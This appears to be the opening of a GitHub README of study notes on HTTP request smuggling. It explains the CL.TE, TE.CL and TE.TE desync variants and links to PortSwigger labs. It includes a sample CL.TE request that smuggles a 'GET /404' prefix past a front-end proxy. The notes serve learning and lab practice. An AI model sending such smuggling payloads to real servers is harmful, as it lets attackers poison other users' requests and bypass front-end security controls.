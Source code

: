 # HTTP Request Smuggling / Desync Attacks: HTTP/1 &  HTTP/2
[My YouTube Channel with a Request Smuggling playlist and more](https://www.youtube.com/@infosec5101)

[HackTricks on Request Smuggling](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/http-request-smuggling/README.md)

[HTTP Request Smuggling extension for BurpSuite](https://github.com/PortSwigger/http-request-smuggler)

[PortSwigger's labs for Advanced Request Smuggling](https://portswigger.net/web-security/request-smuggling/advanced)

*Note: As of the initial upload, this file needs more editing to look pretty. I'll be working on that, feel free to open a pull request with any changes. Having said that, examples from almost every lab are here..*
---
*This is a collection of notes and walktthroughs I have made over the past couple of years on this attack.*

In this doc:
- CL.TE
- TE.CL
- TE.TE
- Most attack simulations
- H/2 labs
- & more 
---

-   CL.TE: the front-end server uses the `Content-Length` header and the back-end server 
     uses the `Transfer-Encoding` header.
-   TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end 
     server uses the `Content-Length` header.
-   TE.TE: the front-end and back-end servers both support the `Transfer-Encoding`  
     header, but one of the servers can be induced not to process it by obfuscating the header in some way.

---

## CL.TE
Here, the **front-end** server uses the **`Content-Length`** header and the **back-end** server uses the **`Transfer-Encoding`** header. We can perform a simple HTTP request smuggling attack as follows:

```
POST / HTTP/1.1  
Host: vulnerable-website.com  
Content-Length: 30  <- Used by the front end in CL.TE 
Connection: keep-alive  
Transfer-Encoding: chunked  
0
```
>  
```
GET /404 HTTP/1.1  
Foo: x
```
Note how `Content-Length` indicate the **bodies request length is 30 bytes long** (_remember that HTTP uses as new line, so 2bytes each new line_), so the reverse proxy **will send the complete request** to the back-end, and the back-end will process the `Transfer-Encoding` header leaving the `GET /404 HTTP/1.1` as the **begging of the next request** (AND, the next request will be appended to `Foo:x<Next request starts here>`).

